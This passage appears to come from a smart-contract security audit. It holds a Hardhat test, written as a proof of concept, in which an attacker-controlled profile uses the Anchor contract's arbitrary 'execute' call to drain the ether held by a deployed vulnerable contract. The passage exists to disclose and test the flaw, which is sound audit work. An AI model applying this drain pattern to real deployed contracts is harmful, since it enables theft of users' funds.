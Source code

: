 ```javascript
    await registry.initialize(owner.address);

    // 2. Deploy Anchor using the deployed Registry address
    // Note: Assuming Anchor accepts a registry address as a constructor parameter
    const Anchor = await ethers.getContractFactory("Anchor");
    anchor = await Anchor.deploy(registry.address);

    // 3. Deploy VulnerableContract and deposit some funds
    const VulnerableContract = await ethers.getContractFactory("VulnerableContract");
    vulnerable = await VulnerableContract.deploy();
    await vulnerable.deployed();
    await owner.sendTransaction({ to: vulnerable.address, value: ethers.utils.parseEther("1") });  // Depositing 1 ether
  });

  it("Create profile and become owner", async function () {
    const tx = await registry.createProfile(1, "Attacker", { key: "value" }, attacker.address, []);
    await tx.wait();

    profileId = await registry.getProfileByAnchor(tx.anchor); // tx.anchor is the profileId
    expect(profileId.owner).to.equal(attacker.address);
  });

  it("Exploit VulnerableContract to withdraw funds", async function () {
    const withdrawalAmount = ethers.utils.parseEther("1");  // Attempting to withdraw all funds
    const callData = vulnerable.interface.encodeFunctionData("withdrawFunds", [withdrawalAmount]);

    await anchor.connect(attacker).execute(vulnerable.address, 0, callData);

    expect(await vulnerable.funds()).to.equal(0);  // The funds in the vulnerable contract should now be 0
  });
});
```

This PoC demonstrates how the `execute` function can be an actual risk. By allowing arbitrary calls with the privileges of the `Anchor` contract, it can be eventually abused, leading to loss of funds or alteration of critical state variables in other CAs.